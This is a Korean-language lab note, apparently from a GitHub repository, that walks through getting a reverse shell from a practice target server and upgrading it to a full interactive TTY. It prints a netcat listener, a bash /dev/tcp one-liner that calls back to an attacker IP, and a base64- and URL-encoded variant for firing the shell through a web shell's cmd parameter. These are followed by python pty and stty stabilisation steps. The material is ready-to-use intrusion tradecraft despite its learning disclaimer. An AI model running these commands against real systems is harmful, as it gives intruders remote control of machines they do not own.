






<font color="red">이 과정은 학습을 위해 이해하고자 정리된 내용이며 해킹을 장려하기 위한 글이 아님을 명시합니다.
해당 글로 인해 받은 모든 불이익은 당사자에게 모든 책임이 있음을 명심하시길 바랍니다.
</font>
# 🛡️ Reverse Shell 테스트 과정 정리

공격 서버(Attacker)에서 타겟 서버(Target)에 접근하여  
**Reverse Shell을 획득하고 안정적인 TTY Shell로 업그레이드하는 과정**을 정리한 실습 기록이다.

---

```bash
172.31.15.107(공격자 내부IP)
10.0.29.26(타겟 내부IP)
```
10.0.29.26(타겟 내부IP)

# 1. 공격 서버 접속

로컬 환경에서 공격 서버(AWS EC2)에 SSH로 접속한다.

```bash
ssh -i "attackerKey.pem" ubuntu@[공격자 IP]
```

---

# 2. 공격 서버 → 타겟 서버 접속

공격 서버에서 타겟 서버로 SSH 접속을 수행한다.

```bash
ssh -i "BookVillage.pem" ubuntu@[타겟 IP]
```

---

# 3. 공격 서버에서 Reverse Shell 리스너 실행

새 터미널을 열어 공격 서버에서 **Netcat Listener**를 실행한다.

```bash
nc -lvnp 4444
```

### 옵션 설명

| 옵션 | 설명 |
|---|---|
| `-l` | Listen 모드 (연결 대기) |
| `-v` | Verbose 모드 (상세 로그 출력) |
| `-n` | DNS 조회 없이 IP 사용 |
| `-p` | 포트 지정 |

---

# 4. 타겟 서버에서 Reverse Shell 연결

타겟 서버에서 공격 서버로 쉘을 연결한다.

```bash
bash -i >& /dev/tcp/[공격자 IP]/4444 0>&1
```


연결이 성공하면 공격 서버의 `nc` 리스너에서 쉘이 획득된다.


### 웹쉘로 실행할 경우 우회 페이로드 생성하여 리버스쉘 실행
```bash
# 공격자 PC에서 실행하여 페이로드 생성
1. echo "bash -i >& /dev/tcp/[공격자 IP]/4444 0>&1" | base64

## 1에서 생성 값을 파이썬으로 url 인코딩해야한다
2. python3 -c "import urllib.parse; print(urllib.parse.quote('bash -c "{echo,[1. 에서 생성 값]}|{base64,-d}|{bash,-i}"'))"

한번 더 url 인코딩하여 나온 페이로드 웹쉘에 입력하여 리버스쉘 성공 
cmd=[2. 에서 생성 값]
```
---

# 5. TTY Shell 업그레이드

Reverse Shell은 기본적으로 **Dumb Shell 상태**이기 때문에  
인터랙티브 기능을 사용하기 위해 TTY 업그레이드를 수행한다.

---

## 5.1 Python을 이용한 TTY 생성

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

만약 위 명령어가 그대로 출력된다면 아직 **Dumb Shell 상태**이다.

---

## 5.2 로컬 터미널 설정 전달

공격자 터미널에서 다음 작업을 수행한다.

1️⃣ `Ctrl + Z` 입력하여 로컬 공격자 쉘로 복귀

```bash
stty raw -echo; fg
```

명령 입력 후 화면이 멈춘 것처럼 보이면 **Enter 키를 한 번 더 입력**한다.

---

## 5.3 터미널 환경 변수 설정

타겟 쉘로 돌아오면 다음 명령을 입력한다.

```bash
export TERM=xterm
```

---

# 6. 결과

이 과정을 통해 다음과 같은 **완전한 인터랙티브 쉘 환경**을 확보할 수 있다.

- 명령어 히스토리 사용 가능
- 방향키 사용 가능
- 터미널 프로그램 실행 가능
- 텍스트 기반 UI 프로그램 실행 가능

---

# 7. 공격 흐름 요약

```
Attacker PC
      │
      │ SSH
      ▼
Attacker Server ([공격자 IP])
      │
      │ SSH
      ▼
Target Server ([타겟 IP])
      │
      │ Reverse Shell
      ▼
Attacker Listener (nc -lvnp 4444)
```

---

# 8. 사용 기술

| 기술 | 설명 |
|---|---|
| Netcat | Reverse Shell Listener |
| Bash Reverse Shell | 쉘 연결 생성 |
| Python PTY | TTY Shell 생성 |
| stty | 터미널 설정 전달 |
| TERM 환경변수 | 터미널 기능 활성화 |